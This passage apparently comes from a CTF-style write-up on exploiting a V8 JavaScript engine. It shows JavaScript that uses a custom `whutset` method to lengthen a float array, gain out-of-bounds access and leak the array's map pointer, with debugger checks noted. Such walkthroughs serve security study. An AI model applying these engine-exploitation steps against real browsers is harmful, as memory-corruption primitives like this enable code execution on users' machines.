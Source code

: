 can be verified through telescope in gdb

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Getting Maps

with this, to leak the map of floating array, we can change the length of the `float_arr` to gain OOB and read `float_arr[4]` this will return properties | maps, as we only want the maps we'll only grab the lower 32 bits

```javascript
float_arr.whutset(50);

var float_arr_map = itof(ftoi(float_arr[4]) & 0xffffffffn);
console.log("[*] float_arr_map: 0x" + ftoi(float_arr_map).toString(16));
dp(float_arr)
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
